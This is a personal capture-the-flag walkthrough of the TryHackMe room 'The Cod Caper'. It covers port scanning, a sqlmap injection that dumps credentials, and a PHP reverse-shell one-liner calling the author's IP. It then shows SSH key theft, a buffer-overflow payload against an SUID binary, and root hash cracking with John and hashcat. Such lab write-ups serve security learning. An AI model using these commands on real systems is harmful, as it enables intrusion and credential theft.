

# The Cod Caper

##### Written: 29/08/2020

**IP Address: 10.10.83.189**

Navigating to the IP address, I can see an Apache2 Default Page. This means that **port 80** is most probably open.


Running an aggressive nmap scan, with the **-a** switch set, I found out that 2 ports, **22** and **80**, were open. 22 serving **ssh**, 80 serving **http**.

```
nmap -sC -sV -a 10.10.83.189
```


From the nmap results, we can see that the ssh version is **OpenSSH 7.2p2 Ubuntu 4ubuntu2.8**, while Apache version is **httpd 2.4.18.**

In the meantime, I will run a basic **nikto** scan:

```
nikto -h 10.10.83.189
```

as well as a **gobuster** scan, with dirbuster's medium wordlist:

 ```
 gobuster dir -u 10.10.83.189 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 ```

to see if there is any additional information I can enumerate.

I also viewed the **page source** to see if any careless comments were left, or any other important information could be found. However, it did not reveal anything.

Since gobuster was taking a really long time with the dirbuster medium wordlist, I decided to run another instance of gobuster, this time with the "**big.txt**" wordlist from **SecLists**. It also contains significantly less words, so it should finish quicker as well.

After a really long scan, **nikto** was the one that came in to save the day! It managed to find an administrator login page, which we can potentially use to our advantage.

***(NOTE: The reason why my gobuster scans did not find anything was because the directory was /administrator.php… Hence, I needed to use the -x switch to include the .php extension!***

```
gobuster dir -u 10.10.83.189 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt -x "php")
```


One thing that I checked for was for SQL injection vulnerabilities. I got to learn how to use a new tool called **sqlmap**. 

*sqlmap is a tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a powerful detection engine, many niche features for the ultimate penetration tester and a broad range of switches lasting from database fingerprinting, over data fetching from the database, to accessing the underlying file system and executing commands on the operating system via out-of-band connections.* 

 

The command used is: 

```
sqlmap -u http://10.10.83.189/administrator.php --forms -a
```

 where -u indicates the target url, --forms automatically selects parameters from <form> elements on the page, and -a retrieves EVERYTHING from the database. 

(Based on a write-up by another person: https://medium.com/@govindsharma606040/the-cod-caper-try-hack-me-writeup-dc4386ecf1e6, another possible command used here could be:

```
sqlmap -u TARGET_URL --forms --dump --dbs --batch
```


The scan revealed a few useful information:

1. A database called 'users' was dumped, showing us that pingu's username & password is: **pingudad:secretpass**
2. The Sql injection was done at the **username** injection point.
3. There were 3 types of SQL injections that the form was susceptible to: 


After logging in with the acquired credentials at the "administrator.php" page, this page was reached:


The room states that there are two possible ways to exploit this: **Setting up a reverse shell**, or using the '**find**' command to find hidden password files within the system. Personally, I will be trying to set up a reverse shell.

First, I set up a netcat listener on my localhost using **nc -lvnp 1234.**

Next, following an online reverse-shell cheatsheet: [**https://highon.coffee/blog/reverse-shell-cheat-sheet/**](https://highon.coffee/blog/reverse-shell-cheat-sheet/)**,** I ran the command inside the command field:

 ```
 php -r '$sock=fsockopen("10.4.6.205",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
 ```

Which opens a php reverse shell. There were many other options in the cheatsheet, but I chose the php one as I had success with it before.



And with that, I was able to run a  reverse shell and gain access into the target machine.

A simple **cat /etc/passwd** tells me that pingu still has an account on the machine. Hence, information regarding him could be present.

Sure enough, his **id_rsa** file was in his **.ssh** directory, which means we can copy it over and use it to ssh into the machine as pingu.


Take note that I had to change the permissions of the copied id_rsa file before I can use it to authenticate myself as pingu when sshing into the server.

```
chmod 600 <FILENAME>
```

However, when sshing into the server, turns out I still needed to log in with Pingu's password… I'm not sure if this was an error on my part, or that the private key was not set up by pingu.


*(Looking at this later on, I see that the pubkey was in an invalid format. Thus, it was not accepted by the ssh server.)*

Looks like I'll have to find the hidden password folder, using the 'find' command! This command was used:

```
find -name pass -type f
```

The search results told me that the password file was hidden in **/var/hidden/pass**.

The password was: **pinguapingu**

With that, I got access to the ssh server.


Next, I used **LinEnum**, which is a privilege escalation script, to automate the process of privilege escalation. First, I had to transfer the file over from my localhost to the remote machine. This can be done through hosting a **simple http server** using Python on my local computer, before using **wget** on the machine to get the file.

**Local machine:**


**Remote machine:**


**Alternate method of transferring LinEnum:**


After successful transferring of LinEnum, we just have to make it executable with **chmod +x,** before running it:


From the scan, we can see that there is an interesting SUID-bit enabled file, **/opt/secret/root**. Since this is an SUID binary, that means that it runs with the permissions of its owner. In this case, the owner is **root**! Hence, we could exploit this file to help us escalate our privileges.


This 'root' file seems to be an executable binary, however, upon running it, nothing really happens. Hence, we can use a tool called **pwndbg**, which is a plugin to **GDB** (The GNU Project Debugger). This tool will allow us to better examine the 'root' binary.

From the room:


The SUID file seems to expect 32 characters of input, and then immediately exits. After further inspection of the source code, we can see that the program calls the **get_input()** method, before it ends. We can also see that there is an 'unused' method called **shell()**. In fact, this shell() method will show us the shadow.bak file on the system! Now we need to find a way to cause the program to run the shell() method. This can be done with **pwndbg**. 

First, I ran **gdb /opt/secret/root**, which gave me this screen:


This means that pwndbg has successfully been initialized. Next, we run "**r < <(cyclic 50)**" *(the spaces have to be specific!)*, which provides 50 characters worth of cyclic input. This is to test what happens when you send more than 32 characters to the buffer. 

Cyclic input goes like this: "aaaaaaaabaaacaaadaaaeaaaf" etc. Because it's in this "cyclic" format, it allows us to better understand the control we have over certain registers.

This was the output:


The focus point for this is the EIP address, which is where the instruction pointer resides. The instruction pointer tells the program which bit of memory to execute next, which in an ideal case would have the program run normally. However, since we're able to overwrite it, we can theoretically execute any part of the program at any time. 

Thus, if we can overwrite EIP to point to the shell function, we can cause it to execute. This is also where the benefits of cyclic input show themselves. Recall that cyclic input goes in 4 character/byte sequences, meaning we're able to calculate exactly how many characters we need to provide before we can overwrite EIP.

First, to calculate how many characters are needed to overwrite EIP, we can use a nifty command:

**cyclic -l ADDRESS_OF_TARGET**

In this case, the target address is the address of EIP, which is **0x6161616c.**


Hence, **44** characters worth of input is required to overwrite the EIP address.

Now, we need to find out the address of the **shell()** method in memory, so that we know what to overwrite the EIP address to. We can do this with GDB's disassemble command. By using **disassemble shell**, we obtain the following:


Hence, the starting point of the method, which is the address we want to overwrite to, is **0x080484cb.**

*Note: Modern CPU architectures are "little endian" meaning bytes are backwards. For example "0x080484cb" would become "cb840408"*

Instead of manually typing out a character 44 times, we can instead use Python to help. In this case, we use the -c tag so that we can pass our output into the root program as a **string**. Also notice that this method requires to convert our target address correctly, as stated in the note above:

 ```
 python -c 'print "A"\*44 + "\xcb\x84\x04\x08"' | /opt/secret/root
 ```

This is supposed to give us the **shadow.bak** file, and we should be able to see the password hash of the root user.

However, for me, It seems like I just cant access the shadow.bak file, even thought I'm supposed to be running the root binary with root permissions… 


**UPDATE: Restarting the virtual machine fixed the problem!** Running the same command helped me obtain the following shadow.bak content:


Now, we just need to crack the root password hash using **John The Ripper**.

To do so, we first need to identify what hashing algorithm was used for the password. Also, it is important to know which part is the actual hash portion. Below is the copied over hash:


Note that the actual hash is in between the first two ":" symbols. Hence, in this case, the hash is

**$6$rFK4s/vE$zkh2/RBiRZ746OW3/Q/zqTRVfrfYJfFjFc2/q.oYtoF1KglS3YWoExtT3cvA3ml9UtDS8PFzCk902AsWx00Ck.**

Next, we use a tool called hash-identifier to find out what hashing algorithm was used.

Then, we use the John the Ripper as such:

```
sudo john --wordlist=/usr/share/wordlists/rockyou.txt root.hash
```

We can obtain the root key! Now we got access.


**ALTERNATE METHOD (Using Hashcat):** 

The method recommended by the room was to use another tool called **Hashcat**. For hashcat, a hash type (**-m**) and attack mode (**-a**) will have to be supplied. Hash types can be found in the help menu. In our case, since we are dealing with SHA-512, the hash type is **1800**. We will use the dictionary attack mode, which is **0,** which just checks against a wordlist. The command used is:

```
hashcat -m 1800 -a 0 root.hash /usr/share/wordlists/rockyou.txt
```

As we can see, hashcat gives us the same result!


### With that, we can log in as root and obtain the flag from root.txt


 

 